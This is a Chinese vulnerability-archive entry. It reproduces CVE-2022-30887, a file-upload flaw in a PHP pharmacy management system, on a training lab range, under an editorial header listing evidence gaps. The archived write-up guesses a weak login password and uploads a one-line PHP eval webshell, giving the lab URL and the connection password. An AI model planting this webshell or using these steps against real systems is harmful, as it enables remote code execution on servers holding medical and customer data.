





# CVE-2022-30887（文件上传漏洞）

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Multi-language Pharmacy Management System
- 文献类型：靶场文件上传复现
- 版本、权限及部署边界：已登录靶场后台，editProductImage.php上传PHP且Web目录可解析；具体产品版本未列
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 演示依赖猜中靶场预置弱口令，不等于真实产品通用默认凭据或无鉴权上传
2. 药房系统名及端点有但无版本/源码/厂商修复；Add Medicine演示与editProductImage端点须请求证据对照
3. 示例含靶场临时域名、邮箱和密码，历史示例不代表当前仍有效或已获访问授权
4. 源码定位和上传请求/响应均缺，图片外仅WebShell片段；不能证明所有上传环境均PHP执行
5. 末尾明确i春秋靶场应前置，宣传与重复省略号清理，补CVE原始报告

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://eci-2ze6nny1geql8lp55w5x.cloudeci1.ichunqiu.com/assets/myimages/cmd.php(assets/myimages/cmd.php右键源码查找>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 y@n1n  暗影安全   2023-08-04 17:45  
  
漏洞简介  
  
……  
  
    多语言药房管理系统 (MPMS) 是用 PHP 和 MySQL 开发的, 该软件的主要目的是在药房和客户之间提供一套接口，客户是该软件的主要用户。  
该CMS中  
  
php_action/editProductImage.php存在任意文件上传漏洞，进而导致任意代码执行。  
  
  
漏洞复现  
  
……  
  
邮箱登录：  
（  
账户名/密码：  
  
mayuri.infospace@gmail.com/mayurik）  
  
漏洞类型：文件上传漏洞  
- 滑至页面最下端，发现跳转连接Mayuri K，点击跳转连接。  
  
  
  
  
  
- 任意点击页面，意外发现弹出了作者邮箱。  
  
（mayuri.infospace@gmail.com）  
  
  
  
- 弱口令尝试登录（Mayurik 、Mayuri  、mayuri 、mayurik，最终mayurik登录成功)。  
  
  
- 经过摸索探寻（其他尝试点本文略）终于找到了上传点Medicile Add Medicine。  
  
  
- 上传webshell(一句话木马），如图。  
<?php @eval($_POST['cmd']);?>  #一句话木马连接webshell。添加url:http://eci-2ze6nny1geql8lp55w5x.cloudeci1.ichunqiu.com/assets/myimages/cmd.php(assets/myimages/cmd.php右键源码查找） 连接密码：cmd编码器：选择base64  
****  
**关于我们**  
  
“  
  
团队由工控安全、逆向分析、安全开发、漏洞挖掘等众多领域专家组成;  
  
  
在那动荡的几年中，我们支撑完成若干安全一线项目，安全应急省级项目我们在第一线、国家基础设施安全爆发我们在第一线、XX行动我们首当其冲;  
  
  
在这几年中我们遇到了很多好朋友，与众多安全中立安全团队保持良好合作，我们互通有无，积极的分享那本该属于黑客精神的东西;  
  
  
希望我们有一段酣畅淋漓的合作;  
  
  
我们的公众号:暗影安全  
  
  
我们的官网: www.shadowsec.org  
  
  
我们一直在...  
  
  
  
  
  
本文漏洞环境来源于i春秋云境靶场  
  
  

---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
